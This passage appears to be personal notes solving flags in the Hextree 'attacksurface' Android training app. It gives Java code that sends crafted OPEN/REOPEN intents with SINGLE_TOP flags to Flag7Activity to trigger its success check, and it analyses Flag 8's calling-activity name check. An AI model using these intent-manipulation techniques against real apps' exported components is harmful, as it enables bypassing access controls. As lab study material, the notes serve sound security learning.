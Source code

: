 2. using delay
```java
 Intent openIntent = new Intent();
    openIntent.setClassName(
        "io.hextree.attacksurface",
        "io.hextree.attacksurface.activities.Flag7Activity"
    );
    openIntent.setAction("OPEN");
    startActivity(openIntent);

    // 2. After a delay, send "REOPEN" intent to trigger onNewIntent
    new Handler(Looper.getMainLooper()).postDelayed(() -> {
        Intent reopenIntent = new Intent();
        reopenIntent.setClassName(
            "io.hextree.attacksurface",
            "io.hextree.attacksurface.activities.Flag7Activity"
        );
        reopenIntent.setAction("REOPEN");
        reopenIntent.addFlags(
            Intent.FLAG_ACTIVITY_SINGLE_TOP |  // Reuse existing activity
            Intent.FLAG_ACTIVITY_CLEAR_TOP     // Clear other instances
        );
        startActivity(reopenIntent);
    }, 1000); // 1-second delay to ensure the activity is alive
```

3. Using single_Top flag
```java
Intent firstIntent = new Intent();  
firstIntent.setClassName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag7Activity"  
);  
firstIntent.setAction("OPEN");  
startActivity(firstIntent);  
  
try { Thread.sleep(1000); } catch (Exception e) {}  
  
Intent reopenIntent = new Intent();  
reopenIntent.setAction("REOPEN"); // Required to trigger success()  
reopenIntent.addFlags(Intent.FLAG_ACTIVITY_SINGLE_TOP | Intent.FLAG_ACTIVITY_REORDER_TO_FRONT);  
reopenIntent.setClassName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag7Activity"  
);  
startActivity(reopenIntent);
```

Using single_Top flag is enough but try experimenting as there may get incase that other activity tries to stay on top etc....

for more infor check [[android life cycle]]

### Flag 8
#### Code analysis
```java
 ComponentName callingActivity = getCallingActivity();
        if (callingActivity != null) {
            if (callingActivity.getClassName().contains("Hextree")) {
                this.f.addTag("calling class contains 'Hextree'");
                success(this);
            } else {
                Log.i("Flag8", "access denied");
                setResult(0, getIntent());
            }
```